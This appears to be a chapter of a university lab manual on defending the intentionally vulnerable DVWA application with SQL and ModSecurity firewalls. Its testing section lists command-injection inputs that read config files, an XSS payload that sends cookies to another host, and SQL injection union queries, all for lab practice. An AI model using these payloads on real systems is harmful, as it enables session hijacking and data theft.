\chapter{Protecting an Insecure Web Application}
\label{Protecting an Insecure Web Application}

\begin{quote}
I will newer blindly copy paste commands from manuals specially when logged as root! -- Experienced IT system administrator.
\end{quote}

\section{Introduction}

The hands-on laboratory is mean to teach system administrator's how to protect insecure web application from common attacks like injection's, \gls{XSS}, \gls{CSRF}, brute force, file upload and file inclusion. Damn Vulnerable Web Application \gls{DVWA} is used as role of insecure application. Several vulnerable web application  alternatives exists \url{http://blog.taddong.com/2011/10/hacking-vulnerable-web-applications.html}


\subsection{Lab Scenario}
Lab participant acts as system administrator for small company which has several web applications. One legacy application is tremendously vulnerable for common type of attacks. Company ordered new web application to replace old and vulnerable service. However old application must survive at least few month's before being replaced. Till that time system administrator have high criticality task  to protect this vulnerable system. Blocking IP addresses is not a solution because client's requests can be originated from any location, although fixing all programming errors takes too long and new version of software was developed for that purposes.



\section{Pre-Requirements}
This hands-on laboratory is designed to students who have knowledge and skills for working with GNU/Linux command line, basic networking and HTTP(S) and understanding text editing.
\par
Students must have possibility to run at least two virtual machines with configuration seen in table~\ref{table:HW for DVWA}

\begin{table}
\centering
\caption{Hardware requirements for DVWA lab}
\begin{tabular}{|c|c|c|}
\hline 
\rule[-1ex]{0pt}{2.5ex} Hardware & Server & Client \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} RAM & $>=512MB$ & >1GB\\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 1 & HostOnly  & HostOnly\\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 2 & NAT & NAT \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} OS & Ubuntu Server 12.04 LTS & Ubuntu Desktop 12.04 LTS\\ 
\hline 
\end{tabular}
\label{table:HW for DVWA}
\end{table}


\section{Scope}
This particular lab 
\section{Learning Outcomes}
Student knows common attack types related to web applications.
\begin{itemize}
	\item SQL Injection
	\item OS command injection
	\item  \gls{XSS}
	\item  \gls{CSRF}
\end{itemize} Student has skill to test those attacks using \gls{DVWA}.
Student knows possible mitigation methods and employ appropriate protection methods.
\section{Setting up the Virtual Environment}
\section{Installation of Damn Vulnerable Web Application}
\subsection{Introduction to DVWA}

Ensure that you have administrator rights
\begin{minted}[frame=lines,framesep=2mm]{bash}
sudo -i
\end{minted}

Update local package cache
\begin{minted}[frame=lines,framesep=2mm]{bash}
apt-get update
\end{minted}


Ensure that unzip package is installed
\begin{minted}[frame=lines,framesep=2mm]{bash}
type unzip || apt-get install unzip
\end{minted}

Install apapache web server, mysql server and php5
\begin{minted}[frame=lines,framesep=2mm,fontsize=\small]{bash}
apt-get install apache2 mysql-server ssh php5 php5-mysql libapache2-mod-php5
\end{minted}


Dowload DVWA using web get utility wget
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://dvwa.googlecode.com/files/DVWA-1.0.7.zip
\end{minted}

\begin{minted}[frame=lines,framesep=2mm]{bash}
unzip DVWA-1.0.7.zip
mv dvwa /var/www

nano /var/www/dvwa/config/config.inc.php

$_DVWA[ 'db_user' ] = 'root';
$_DVWA[ 'db_password' ] = 'student';
$_DVWA[ 'db_database' ] = 'dvwa';
\end{minted}
%$
For save use  CTRL + X


http://$ServerIP$/dvwa/
Username : admin
Password : password
Change DVWA Security level to low (for beginners)

\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.6\textwidth]{dvwa_security_low.pdf}
 \rule{25em}{0.5pt}  
 \caption{Setting DVWA Security Level to Low} 
 \label{Setting DVWA Security Level to Low} 
\end{figure}


\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.8\textwidth]{DVWA_Main_Page.pdf}
 \rule{30em}{0.5pt}  
 \caption{Damn Vulnerable Web Application - default page} 
 \label{Damn Vulnerable Web Application - default page} 
\end{figure}

\subsection{Testing vulnerabilities}
For understanding a defence of web application a basic offensive knowledge and skills are needed. However, this lab focused on defensive methods and will not provide knowledge about different \gls{OWASP} top ten. 

\colorbox{red}{\parbox{\textwidth}{DISCLAIMER: Do not use followed methods on any computer except lab computer and only for learning propose!}}

\subsubsection{Command execution}
Read command execution material given in Command Execution menu and try and explaing following commands and results.

\begin{minted}[frame=lines,framesep=2mm]{bash}
8.8.8.8; sed 's/</UUUU/' ../../config/config.inc.php

#Find out directory and file structure of \gls{DVWA}
8.8.8.8; ls -l 
8.8.8.8; ls -l ../
8.8.8.8; ls -l ../../
8.8.8.8; sed 's/<//'  ../../../../wordpress/wp-config.php
8.8.8.8; touch /var/tmp/new_file.txt
8.8.8.8; ls /var/tmp/
\end{minted}

Try following command and explain what can describe output of following command?
\begin{minted}[frame=lines,framesep=2mm]{bash}
; grep session.cookie_httponly /etc/php5/apache2/php.ini
\end{minted}
What attack vectors are possible when cookie\_httponly is set or not?

\begin{minted}[frame=lines,framesep=2mm]{bash}
session.cookie_httponly = 1
\end{minted}

What are better solution $0 or 1$?
\begin{minted}[frame=lines,framesep=2mm]{bash}
session.cookie_httponly = 0
\end{minted}
XSS
\begin{minted}[frame=lines,framesep=2mm]{bash}
<script>var i='<img src="http://192.168.56.101/'+document.cookie+'" />'; document.write(i);</script>
\end{minted}
veel XSSi
\begin{minted}[frame=lines,framesep=2mm]{bash}
%3Cscript%3Evar+i%3D%27%3Cimg+src%3D%22http%3A%2F%2F192.168.56.101%2F%27%2Bdocument.cookie%2B%27%22+%2F%3E%27%3B+document.write%28i%29%3B%3C%2Fscript%3E
\end{minted}
SQLi
\begin{minted}[frame=lines,framesep=2mm]{bash}
#blind
1' union select BENCHMARK(100000000,ENCODE('hello','goodbye')),1; # --
 
 
2' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES;# --
 
 
3' union  select TABLE_NAME,COLUMN_NAME from information_schema.columns; # --

\end{minted}



\section{Installation of SQL Application Firewall}
SQL database firewall filters and rejects injected sql statements from untrusted web application. SQL firewall is application type firewall and usually understands database engine and SQL internals to determine possible malicious commands. For example detecting  SQL tautology (statement that gives always true) demands understanding SQL syntax and semantics. Detecting SQL tautology helps prevent commonly used authorization bypassing techniques.
Each database engine behaves differently and SQL firewalls are database engine aware.


Examples of commonly used database firewalls:
\begin{itemize}
\item DB Green SQL database firewall. Supports MySQL, Microsoft SQL Server, PostgreSQL
\item GreenSQL Open Source database firewall. Supports MySQL, PostgreSQL.
\item ORACLE database firewall. Supports Oracle, MySQL, Microsoft SQL Server, IBM DB2 and Sybase databases
\item SecureSphere Database Firewall. Supports Oracle, Microsoft SQL Server, Sybase, DB2, Informix, MySQL, Progress, Teradata, Netezza backends.
\end{itemize}

SQL firewalls can reject and intercept queries and modify whitelists and blacklists. Database firewalls can give false positives and false negatives during operations. Database firewall can be used in most cases but for web applications that can compose any SQL query (like  phpmyadmin for example) those solutions are not efficient. It is also possible to abuse business logic with whitelisted queries and SQL database firewalls can’t protect for those queries.
Some database firewalls supports monitoring queries and killing queries that are consuming too many resources.

Pros:
Effective way to protect SQL server for common injection attacks like SQL tautology ( ‘1’=’1’, ‘1’ like ‘1’ for example), union, if (if order by are used, then union is not allowed) etc.
Firewalls can learn to compose whitelists/blacklists.

Cons:
Each firewall can be used to protect some particular database backends.
Can give false positives and false negatives.

Conclusion for  database firewall:
If web application is SQL injection prone then database firewall solution should be used.
For proper protection some other methods should also used like least privileges and filtering before web application.

\subsection{GreenSQL Open Source SQL Firewall}
\subsubsection{Installing GreenSQL from pre built package (FOR BEGINNERS)}
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://elab.itcollege.ee:8000/Day3/greensql-fw_1.3.0_amd64.deb
dpkg -i greensql-fw_1.3.0_amd64.deb
apt-get install -f

#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql

cd /var/www/greensql
chmod 0777 templates_c
\end{minted}

\subsubsection{Installing GreenSQL Open Source frou source code (For Advanced Students)}


Download greensql-fw from download page.
\begin{minted}[frame=lines,framesep=2mm]{bash}

wget -O greensql-fw-1.3.0.tar.gz \
 "http://elab.itcollege.ee:8000/greensql-fw-1.3.0.tar.gz"

#Extract source code
tar zxvf greensql-fw-1.3.0.tar.gz

#Install pre requirements
apt-get install flex
apt-get install bison
apt-get install devscripts
apt-get install debhelper
apt-get install libpcre3-dev
apt-get install libmysqlclient-dev
apt-get install libpq-dev

#Build deb package (In this case it fails. Find out why.)
./build.sh
#Install package with dpkg
dpkg -i greensql-fw_1.3.0.deb
#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql

cd greensql
chmod 0777 templates_c
\end{minted}

\section{Installation of Mod Security Application Firewall}
\begin{minted}[frame=lines,framesep=2mm,fontsize=\scriptsize]{bash}

sudo apt-get update
sudo apt-get install libxml2 libxml2-dev libxml2-utils
sudo apt-get install libapache2-modsecurity
ln -sf /usr/lib/x86_64-linux-gnu/libxml2.so.2 /usr/lib/libxml2.so.2
sudo mv /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
cd /tmp
 
wget http://downloads.sourceforge.net/project/mod-security/modsecurity-crs/0-CURRENT/modsecurity-crs_2.2.5.tar.gz
 
sudo tar zxf modsecurity-crs_2.2.5.tar.gz
 
sudo cp -R modsecurity-crs_2.2.5/* /etc/modsecurity/
 
sudo rm modsecurity-crs_2.2.5.tar.gz
 
sudo rm modsecurity-crs_2.2.5 -r
 
sudo mv /etc/modsecurity/modsecurity_crs_10_setup.conf.example /etc/modsecurity/modsecurity_crs_10_setup.conf 
\end{minted}


To enable rulesets create /etc/apache2/conf.d/modsecurity.conf file with following content:
\begin{minted}[frame=lines,framesep=2mm]{apache}
<ifmodule mod_security2.c>
SecRuleEngine On
</ifmodule>
\end{minted} 
\begin{minted}[frame=lines,framesep=2mm]{bash}
 
sudo a2enmod mod-security
sudo service apache2 restart

\end{minted}


File /etc/apache2/mods-enabled/mod-security.conf
\begin{minted}[frame=lines,framesep=2mm]{apache}

<IfModule security2_module>
        # Default Debian dir for modsecurity's persistent data
        SecDataDir /var/cache/modsecurity
 
        # Include all the *.conf files in /etc/modsecurity.
        # Keeping your local configuration in that directory
        # will allow for an easy upgrade of THIS file and
        # make your life easier
        Include "/etc/modsecurity/*.conf"
        Include "/etc/modsecurity/activated_rules/*.conf"
#       Include "/etc/modsecurity/optional_rules/*.conf"
        Include "/etc/modsecurity/base_rules/*.conf"
</IfModule>
\end{minted} 

\url{https://www.owasp.org/index.php/Category:OWASP_ModSecurity_Core_Rule_Set_Project}
\url{http://blog.spiderlabs.com/2011/07/modsecurity-sql-injection-challenge-lessons-learned.html}




\section{Securing Web Application Configuration}
\begin{itemize}
\item Setting Document Cookies to HTTP Only
\item Fixing Database Privileges
\item Separating Web Applications (for internal use and for external use)
\end{itemize}

\section{Final System Architecture} 
Keep in mind that final architecture contains several components to provide layered security for insecure web application as seen on Figure ~\ref{Architecture of Secured Web Application}

\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.9\textwidth]{web_security_lab_goal.pdf}
 \rule{35em}{0.5pt} 
 \caption{Architecture of Secured Web Application} 
 \label{Architecture of Secured Web Application} 
\end{figure}


